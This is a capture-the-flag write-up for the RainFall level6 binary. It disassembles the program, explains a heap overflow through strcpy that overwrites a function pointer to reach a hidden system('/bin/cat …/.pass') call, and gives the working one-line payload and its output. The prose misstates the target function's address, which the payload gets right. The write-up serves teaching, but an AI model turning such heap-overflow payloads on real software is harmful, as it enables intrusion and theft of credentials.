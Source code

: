 # level6

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We take a look at the existing functions inside the binary.

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40         ; load 64 as arg
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>       ; malloc(64)
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax     ; pointer of malloc is stored at [esp+0x1c]
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4          ; load 4 as arg
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>       ; malloc(4)
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax     ; pointer of last malloc is stored at [esp+0x18]
   0x080484a5 <+41>:    mov    edx,0x8048468                ; move 0x8048468 (<m>) to edx
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]     ; load pointer at [esp+0x18] (malloc(4)) into eax
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx          ; mov edx (<m>) into stack pointed by eax
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]      ; load address [ebp+12] into eax
   0x080484b3 <+55>:    add    eax,0x4                      ; [ebp+12] + 4: seems to be argv[1]
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]          ; load argv[1] into eax
   0x080484b8 <+60>:    mov    edx,eax                      ; load argv[1] into edx
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]     ; load [esp+0x1c] (malloc(64)) into eax
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx      ; arg2 = argv[1]
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax          ; arg1 = pointer malloc(64)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>       ; strcpy(malloc(64), argv[1])
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]     ; load [esp+0x18] into eax
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]          ; get first argument of struct pointed by eax
   0x080484d0 <+84>:    call   eax                          ; call eax where eax point to <m> (function pointer)
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1    ; 0x80485d1 = "Nope"
   0x08048475 <+13>:    call   0x8048360 <puts@plt>         ; puts("Nope")
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0    ; 0x80485b0 = "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:    call   0x8048370 <system@plt>       ; system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

After analysing the differents functions we understand that we need to use the `call eax` instruction at `main<+84>` to make it call the hidden function `n` which will display the `.pass` file.

Since `malloc` will allocate 64 bytes for the string, then 4 more for the address of the function `m` (function pointer), theses two memory spaces will be contiguous.

The use of `strcpy`, which does not check the source string length, to write inside the address returned by the first `malloc`, will allow us to perform a buffer overflow attack on the heap to overwrite the address stored inside the function pointer (`m` address) with the address of `n`.

## Exploit

The argument we send must be long enough to fill in the 64 bytes allocated by the first `malloc` call, plus the 8 bytes of block metadata. The four following bytes, corresponding to the second `malloc` allocation, must be replaced with the address of `n` function (0x08048468).

```console
level6@RainFall:~$ ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```